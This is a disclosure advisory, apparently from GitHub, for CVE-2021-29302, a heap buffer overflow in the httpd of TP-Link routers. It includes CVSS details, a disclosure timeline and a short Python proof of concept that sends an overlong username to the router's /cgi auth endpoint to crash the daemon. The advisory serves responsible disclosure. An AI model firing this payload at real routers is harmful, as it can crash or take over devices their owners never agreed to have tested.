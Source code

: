 # Buffer 0verflow in TP-Link Devices

## Overview

**CVE ID**: [CVE-2021-29302](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29302)

**Type**: Buffer overflow

**Vendor**: TP-LINK (https://www.tp-link.com)

**Products**: WiFi Router, such as [TL-WR802N(US)](https://www.tp-link.com/us/support/download/tl-wr802n/#Firmware), Archer_C50v5_US, etc.

**Version**: V4_200 <= 2020.06

**Fix**: [https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip](https://static.tp-link.com/beta/2021/202103/20210319/TL-WR802Nv4_US_0.9.1_3.17_up_boot[210317-rel64474].zip)

## Severity

**High** 8.1 CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

| CVSS3.1             | Score     | Detail                                                       |
| ------------------- | --------- | ------------------------------------------------------------ |
| ATTACK VECTOR       | Network   | Connect the router through the network                       |
| ATTACK COMPLEXITY   | High      | It is necessary to use carefully constructed messages to attack when the  router has not set a password |
| PRIVILEGES REQUIRED | None      | No permissions are required                                  |
| USER  INTERACTION   | None      | No need for users to click                                   |
| SCOPE               | Unchanged | Null                                                         |
| CONFIDENTIALITY     | High      | RCE                                                          |
| INTEGRITY           | High      | RCE                                                          |
| AVAILABILITY        | High      | RCE                                                          |

## Description

There is a buffer overflow when HTTP body message is parsed by httpd  process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process heap space to overflow.

![burpsuite](pictures/burpsuite.png)

The instruction where the error occurred is in the http binary

![code](pictures/code.png)

Crash log

![crash](pictures/crash.png)

## How to Reproduce (POC)

It is easy to reproduce this problem.

```python
# Only after resetting the router or using the router for the first time, can the script work effectively!
import requests

headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 512 + "b" * 1024
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)
 
proxies = {
	"http": "http://127.0.0.1:8080",
}

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers, proxies=proxies)
print response.text
```

## Disclosure Timeline

- 14-Mar-2021 Discoverd the vulnerability
- 15-Mar-2021 Responsibly disclosed vulnerability to vendor
- 19-Mar-2021 Vendor Acknowledged the disclosure & Vendor provided software build to verify the issue
- 24-Mar-2021 Requested for CVE-ID assignment
- 29-Mar-2021 CVE-ID Assigned
- 9-Apr-2021 Update a CVE Record
- 10-Apr-2021 Notify CVE about a publication
